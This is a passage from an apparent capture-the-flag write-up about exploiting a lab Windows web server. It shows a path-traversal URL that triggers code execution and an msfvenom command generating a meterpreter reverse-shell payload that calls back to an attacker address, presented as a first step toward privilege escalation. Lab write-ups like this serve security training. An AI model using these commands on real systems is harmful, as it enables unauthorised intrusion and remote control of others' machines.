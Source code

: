 And finally, let’s trigger the vulnerability by accessing the url: `http://10.10.243.37/?theme=../../App_Data/files`

<figure><img src="../../.gitbook/assets/Untitled 17 (3).png" alt=""><figcaption></figcaption></figure>

Yeah! Let’s see who am I logged as:

<figure><img src="../../.gitbook/assets/Untitled 18 (3).png" alt=""><figcaption></figcaption></figure>

## Windows Privilege Escalation <a href="#user-content-windows-privilege-escalation" id="user-content-windows-privilege-escalation"></a>

In this task we will learn about the basics of Windows Privilege Escalation.

First we will pivot from netcat to a meterpreter session and use this to enumerate the machine to identify potential vulnerabilities. We will then use this gathered information to exploit the system and become the Administrator.

Our netcat session is a little unstable, so lets generate another reverse shell using msfvenom.

_Tip:_ _You can generate the reverse-shell payload using msfvenom, upload it using your current netcat session and execute it manually!_

So, first of all let’s generate the payload using msfvenom as the tip says. To do it we will need to know the target SO architecture (32 or 64 bits). We can check it by sending the following command through the netcat reverse shell we already have:

`echo %PROCESSOR_ARCHITECTURE%`

<figure><img src="../../.gitbook/assets/Untitled 19 (3).png" alt=""><figcaption></figcaption></figure>

As we can see, the response indicates that the architecture is 64b. With this info, let’s generate the payload in our machine. `msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe -o shell.exe LHOST=10.10.10.10 LPORT=1234`
